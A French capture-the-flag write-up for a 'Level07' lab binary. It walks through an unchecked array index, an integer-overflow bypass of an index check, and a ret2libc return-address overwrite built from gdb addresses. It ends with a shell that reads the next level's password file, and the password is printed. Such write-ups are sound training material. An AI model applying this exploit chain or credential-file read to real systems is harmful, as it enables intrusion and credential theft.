 # Level07

## Analyse

- On a ici une fonction main qui declare un tableau d'unsigned int de 100 elements et un buffer de 20 char.

- On a au debut de la fonction une suppression des argv et de l'env.

- Ensuite une boucle while(1) qui attend en entree les commandes via `strcmp()` :
    - store : qui va call `store_number()` avec en parametre le tab data.
    - read : qui va call `read_number()` avec en parametre le tab data.
    - quit : qui va break la boucle.

- On a un memset en fin de boucle pour reinitialiser le buffer commande.

- Store_number :
    - declare deux unsigned int number et index
    - Call `scanf()` deux fois via la fonction `get_unum()` pour recuperer le nombre et l'index a store dans le tab data.
    - Avant cette operation il y a une verification : si l'index % 3 == 0 ou number >> 24 == 0xb7 alors return 1.
    - Si cette verification est passee store alors `data[index] = number`.

- Read_number :
    - declare un unsigned int index
    - initialise cette variable avec un call a `scanf()` via la fonction `get_unum()`
    - Ensuite va read l'element a l'index donne dans le tab data.

## Exploitation

- Deja on observe qu'il n'y a pas de protection d'index lors du `store_number()` :

```
Input command: store
Number: 1
Index: 107
Completed  command successfully
```

- Cela nous permet d'overflow le tab et de read la stack

- En parcourant les index on a observe que l'index 114 est : `4158936339`
    - En hexadecimal cela donne : `F7E45513` qui correspond a notre saved eip du main : `saved eip 0xf7e45513`
    - Malheureusement nous ne pouvons pas acceder a l'index 114 car rentre dans la condition index % 3 :

```
Input command: store
Number: 1 
Index: 114
*** ERROR! ***
This index is reserved for wil!
*** ERROR! ***
Failed to do store command
```

- Bon il va falloir trouver une solution pour contourner ces protections : 
    - Dans le code disas on observe des left shift bits de 2 (qui correspond a un *4) :
```
shl     eax, 0x2
```

- Notamment dans la fonction `store_number()` et `read_number()`. Ces multiplications par 4 sont la pour calculer le decalage dans le tab car les valeurs en int : `sizeof(int) = 4 bytes`.

- Cela signifie que pour acceder aux index du tableau il est force a multiplie par 4 pour acceder au bon index.

- La vérification `index % 3` se fait sur l'index original, pas sur le résultat après multiplication.

- Maintenant que l'on sait cela, on peut chercher une valeur qui multiplie par 4 va overflow le unsigned int et donner 114.

- Prenons le u_int max, divisons le par 4 et ajoutons 114 :
    - 4,294,967,296 / 4 + 114 = 1073741938

```
Input command: store
 Number: 1
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1
 Completed read command successfully
```

- Nous avons donc reussi a modifier notre index 114. Cela nous laisse 3 espaces contigus : 114, 115, 116.

- En reflechissant 2 minutes on peut penser a un ret2libc qui implique 3 adresses : `system()`, `exit()`, `"/bin/sh"`.

- Allons trouver ces adresses :

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info pro
proc     program  
(gdb) info proc mappings 
process 1747
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

- Cast en unsigned int : 

```
0x f7e6aed0 = 4159090384 system 114 1073741938
0x f7e5eb70 = 4159040368 exit   115
0x f7f897ec = 4160264172 bin/sh 116
```

- Essayons maintenant d'entrer ces valeurs dans le programme : 

```
Input command: store
Number: 4159090384
Index: 1073741938
Completed store command successfully
Input command: store
Number: 4159040368
Index: 115
Completed store command successfully
Input command: store
Number: 4160264172
Index: 116
Completed store command successfully
```

- Plus qu'a quitter la boucle while avec la commande quit pour rediriger le flux d'execution vers notre `ret2libc` :

```
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```